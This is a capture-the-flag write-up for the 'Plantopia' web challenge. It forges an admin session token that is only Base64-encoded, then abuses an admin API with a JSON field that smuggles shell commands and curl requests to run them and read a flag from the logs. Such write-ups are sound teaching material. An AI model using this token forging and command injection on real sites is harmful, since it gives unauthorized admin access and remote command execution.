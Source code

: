 # Plantopia

## Description

<small>Author: @HuskyHacks</small><br><br>Plantopia is our brand new, cutting edge plant care management website! Built for hobbiests and professionals alike, it's your one stop shop for all plant care management. <br><br> Please perform a penetration test ahead of our site launch and let us know if you find anything.
<br><br> Username: <code>testuser</code>
<br> Password: <code>testpassword</code>
<br><br> <b>Press the <code>Start</code> button on the top-right to begin this challenge.</b>


## Solution

This was a live-service web-app that is vulnerable to session forging due to a weak session token value.

The session token is simply Base64 encoded, meaning you can forge your own very easily.

Here is an example token:
```
emit testuser.0.1729632199 |r.b64 -R
dGVzdHVzZXIuMC4xNzI5NjMyMTk5
```

You can create an administrative token by manipulating the user and/or the boolean value in between the `.` characters:

```
emit admin.1.1729632346| r.b64 -R
YWRtaW4uMS4xNzI5NjMyMzQ2
```

The service exposes an API that lets admins run arbitrary commands attached to certain plants, and then read the logs which display the command output of those commands.

We can get the flag with two JSON payloads sent to the API, and 3 curl commands:

Payload 1, update a plant:
```json
{
  "description": "A beautiful sunflower.",
  "sunlight_level": 1,
  "watering_threshold": 1,
  "alert_command": "whoami;find / -name flag.txt 2>/dev/null -exec cat {} \\;"
}
```

Send the payload via the following command:
```
curl -X 'POST' 'http://challenge.ctf.games:31332/api/plants/1/edit' -H 'Content-Type: application/json' -H 'Authorization: YWRtaW4uMS4xNzI5NjMyMzQ2' --data @payload.json
```

We then need to trigger the payload using a separate API endpoint that accepts a plant ID to trigger the command for:

Payload 2:
```json
{
  "plant_id": 1
}
```

Send the payload:
```
curl -X 'POST' 'http://challenge.ctf.games:31332/api/admin/sendmail' -H 'Content-Type: application/json' -H 'Authorization: YWRtaW4uMS4xNzI5NjMyMzQ2' --data @payload2.json
```

Finally, we can read the logs and get the flag from the logs:
```
curl -X 'GET' 'http://challenge.ctf.games:31332/api/admin/logs' -H 'accept: application/json' -H 'Authorization: YWRtaW4uMS4xNzI5NjMyMzQ2' 
```